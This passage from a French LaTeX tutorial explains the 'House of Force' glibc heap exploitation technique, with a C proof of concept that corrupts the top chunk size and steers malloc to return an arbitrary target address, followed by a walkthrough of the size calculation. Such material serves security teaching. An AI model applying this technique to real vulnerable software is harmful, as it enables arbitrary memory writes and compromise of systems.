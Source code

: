 \begin{verbatim}
#include <stdlib.h>
#include <stdint.h>
#include <malloc.h>

int main() {
    long target_variable = 0; // La variable que nous voulons écraser

    // 1. Allocation initiale pour s'approcher du Top Chunk
    long *ptr = malloc(0x100);

    // 2. Vulnérabilité : Heap Overflow écrasant la taille du Top Chunk
    // En réalité, cela se ferait via une fonction vulnérable (ex: strcpy).
    // Ici, nous simulons l'écrasement en pointant directement sur le header.
    long *top_chunk_size = ptr + (malloc_usable_size(ptr) / sizeof(long));
    *top_chunk_size = -1; // 0xffffffffffffffff

    // 3. Calcul de la distance (Evil_Size)
    // Distance = Cible - Top_Chunk_Actuel - (4 * sizeof(long))
    long evil_size = (long)&target_variable - (long)top_chunk_size - 0x20;

    // 4. Allocation pont (Bridge allocation)
    // malloc avance le pointeur du Top Chunk en utilisant notre taille calculée.
    // L'entier déborde (integer overflow) et boucle l'espace d'adressage.
    malloc(evil_size);

    // 5. L'exploitation
    // La prochaine allocation retournera l'adresse exacte de notre cible.
    long *arbitrary_write = malloc(0x20);
    *arbitrary_write = 0xDEADBEEF;

    return 0;
}
\end{verbatim}

La taille étant maintenant à sa limite maximale, la GLIBC considère que le Top Chunk couvre
l'intégralité de l'espace mémoire virtuel. L'attaquant calcule ensuite la distance exacte pour
atteindre l'adresse cible en utilisant cette formule :

$$Evil\_Size = Target\_Address - \space{10} Top\_Chunk\_Address - (4 \times \text{sizeof(long)})$$


Ensuite, l’attaquant effectue un appel à \texttt{malloc} en utilisant la taille
précédemment calculée. La GLIBC traite cette requête en avançant le pointeur du
Top Chunk. En raison du débordement d’entier (integer overflow), l’adresse mémoire
« boucle » dans l’espace utilisateur (wrap around). Le nouveau Top Chunk se
retrouve alors positionné juste avant l’adresse cible.

On soustrait $(4 \times \text{sizeof(long)})$ car \texttt{malloc} va créer un
chunk minimal pour conserver la cohérence du tas,
composé d’un champ \texttt{prev\_size} (8~octets), d’un champ
\texttt{size} (8~octets) et d’un payload minimal aligné sur 16~octets, soit un
total de 32~octets (\texttt{0x20}).

